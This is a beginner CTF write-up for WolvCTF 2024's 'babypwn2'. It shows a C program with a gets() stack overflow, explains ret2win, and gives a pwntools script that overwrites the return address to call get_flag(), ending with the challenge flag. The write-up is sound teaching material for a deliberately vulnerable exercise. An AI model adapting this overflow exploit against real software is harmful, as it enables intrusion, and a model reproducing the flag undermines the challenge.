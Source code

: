 ```yaml
---
layout: writeup
category: Wolv-CTF-2024
chall_description:
points: 50
solves: 182
tags: Wolv-CTF-2024 pwn pwn/buffer-overflow pwn/ret2win pwn/gets
date: 2024-3-19
comments: false
---
```


A harder babypwn.  

`nc babypwn2.wolvctf.io 1337 `  

[babypwn2](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Wolv-CTF-2024/beginner/babypwn2)  
[babypwn2.c](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Wolv-CTF-2024/beginner/babypwn2.c)  

---

We're provided a binary ELF and a C source file. Here's the source:  

```c
#include <stdio.h>
#include <unistd.h>

/* ignore this function */
void ignore()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag() 
{
    char *args[] = {"/bin/cat", "flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main() 
{
    ignore();
    char buf[0x20];
    printf("What's your name?\n>> ");
    gets(buf);
    printf("Hi %s!\n", buf);
    return 0;
}
```

Basically, the vulnerability here lies in the call to the `gets()` function in main().  gets() is well-known to be vulnerable, as it places no protections on buffer overflow/sending in too many bytes as input.  

Essentially, this is a classic ret2win challenge. For those of you unaware what this means, ret2win entails overriding the RIP, i.e. the return pointer. Basicaly, the RIP is located on the stack, and, at the end of main(), when the proram hits a `return` statement, the program will return to the location specified by RIP. However, because the RIP is located on the stack, attackers can override this value. We want to override the RIP with the return address of get_flag() so the program returns to get_flag() instead!  

To do this, we can easily use pwntools. I recommend beginners who solve these challenges without pwntools to try and switch to pwntools because it is much easier!  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./babypwn2")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./babypwn2')
# gdb.attach(p)

p = remote('babypwn2.wolvctf.io', 1337)

### IGNORE EVERYTHING ABOVE

# FIND RIP offset
# p.sendlineafter(b'>> ', cyclic(1024))

winaddr = elf.symbols['get_flag']
offset = cyclic_find('kaaalaaa')

p.sendlineafter(b'>> ', b'A'*offset + pack.p64(winaddr))

p.interactive()
```

First, we can find the offset of the RIP on the stack comapred to where the input is. We can do this by sending a cyclic of length 1024 (arbitrarily large). I'll skip over the fine details, but, essentially, you can think of the cyclic() function generates a sequence of characters such that every group of 4 characters will be unique. When the program inveitably throws a segmentation fault, once the RIP is overriden and it can't find the corresponding function since it is a random address, we can find the 8 characters it attempted to return to by checking the bytes at RSP, the stack pointer (points to the top of the stack). (Note that it is 8 instead of 4 because this is a 64-bit ELF, instead of a 32-bit ELF).  

If you're using standard GDB, we can do this by the command `x/qx $rsp`. I'm personally using pwndbg (and I would recommend you do so too!), which allows me to see all registers everytime the program stops.  

With pwndbg, we can clearly see that it's `kaaalaaa` (or by decoding from hex to ASCII from what you read in standard GDB). Now that we know this, we can use pwntools's `cyclic_find()` function to find the offset of this string in the generated cycle.  

Once we do that, we can simply find the address of the get_flag() function as seen above, then send some garbage bytes to fill the bytes in between the input and the RIP, and then send the packed value of the win address (because little-endianness requires us to send the reverse of the bytes).  

That's it. Running the program will now get you the flag!  

    wctf{Wo4h_l0ok_4t_y0u_h4ck1ng_m3}

### Sidenote
It is usually also standard to run `checksec` on the ELF, but I left it out since this is a writeup intended for beginners. This is a very useful tool for pwners, so if you're a beginner, I would recommend downloading it!  